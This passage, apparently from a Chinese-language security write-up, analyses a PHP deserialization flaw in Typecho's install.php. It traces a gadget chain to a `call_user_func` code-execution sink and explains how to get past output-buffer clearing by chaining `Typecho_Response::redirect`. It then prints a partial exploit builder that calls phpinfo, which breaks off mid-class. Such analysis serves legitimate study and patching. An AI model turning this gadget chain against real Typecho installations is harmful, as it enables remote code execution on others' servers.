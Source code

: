 在`_applyFilter`方法中我们最终发现了一个可以代码执行的地方： `call_user_func($filter, $value);` 此处的两个参数都是我们可以控制的，这里我们的rop已经初步构造完成。

## 解决一些小问题

在 install.php 的开头部分调用了程序调用了 ob\_start\(\); ，而我们的对象注入操作必定会触发代码中定义的 exception：

```text
public static function exceptionHandle(Exception $exception)
    {
        @ob_end_clean();

        if (defined('__TYPECHO_DEBUG__')) {
            echo '<h1>' . $exception->getMessage() . '</h1>';
            echo nl2br($exception->__toString());
        } else {
            if (404 == $exception->getCode() && !empty(self::$exceptionHandle)) {
                $handleClass = self::$exceptionHandle;
                new $handleClass($exception);
            } else {
                self::error($exception);
            }
        }

        exit;
    }
```

这样他会在处理异常时调用ob\_end\_clean，这样我们就算执行了代码，也无法拿到输出。 注意，最后调用`call_user_func`的时候，是一个循环，我们在一次运行中去调用多个函数，甚至实例的某个方法，因为他没有限制传入的$filter是不是一个数组。这样我们只要找到一个类方法，其中含有exit，那么就可以直接让程序退出并输出缓冲区中的内容。这样的类很多，这里我选择了`Typecho_Response`的`redirect`方法，这样经过4个gadget，我们的exp基本可以通杀了（其实还可以再加两个绕gadget过更多限制，这里留给大家研究）。

```text
<?php
class Typecho_Response{}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName']=-1;
        $this->_filter[0]='phpinfo';
        $x = new Typecho_Response;
        $this->_filter[1]=array($x,'redirect' );
    }
}
class Typecho_Feed
{
    const RSS1 = 'RSS 1.0';

        /** 定义RSS 2.0类型 */
        const RSS2 = 'RSS 2.0';

        /** 定义ATOM 1.0类型 */
        const ATOM1 = 'ATOM 1.0';

            /** 定义RSS时间格式 */
            const DATE_RFC822 = 'r';

            /** 定义ATOM时间格式 */
            const DATE_W3CDTF = 'c';

                /** 定义行结束符 */
                const EOL = "\n";
            private $_type;
```